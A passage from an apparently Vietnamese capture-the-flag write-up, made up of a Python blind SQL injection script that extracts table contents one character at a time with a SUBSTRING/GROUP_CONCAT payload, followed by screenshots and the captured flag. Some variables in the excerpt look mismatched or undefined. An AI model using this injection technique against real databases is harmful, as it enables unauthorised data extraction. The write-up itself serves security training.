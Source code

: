```python
            break
        lenght_content_table+=1
    print(lenght_content_table)
    #GET CONTENT TABLE
    table_string_content=""
    for i in range(1,lenght_content_table+1):
        for char in list_wordlist:
            payload = f"users 123' OR (SELECT SUBSTRING((SELECT (GROUP_CONCAT({columns[0]})) FROM {table_child}), {i}, 1) = '{char}') ; ##"
            encoded_data = base64.b64encode(dataClear.encode()).decode()
            data = {
                "data": encoded_data
            }
            json_data = json.dumps(data)

            response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
            response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
            response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
            response_data = json.loads(response_result.text)
            print(payload)
            if response_data == "EMPTY":
                table_string_content+=char
                break
    content_table = table_string_content.split(",")
    print(content_table)
    break
```

Chạy nó và bạn sẽ lấy được flag:
![Alt text](/images/writeups/writeup-vsl-ctf-internal-2023/image46.png)

![Alt text](/images/writeups/writeup-vsl-ctf-internal-2023/image47.png)

Chi tiết cách nó hoạt động, bọn mình sẽ giải thích vào những buổi training sau.

`FLAG: vku{levle_sqli_you_4re_7he_b3st}`
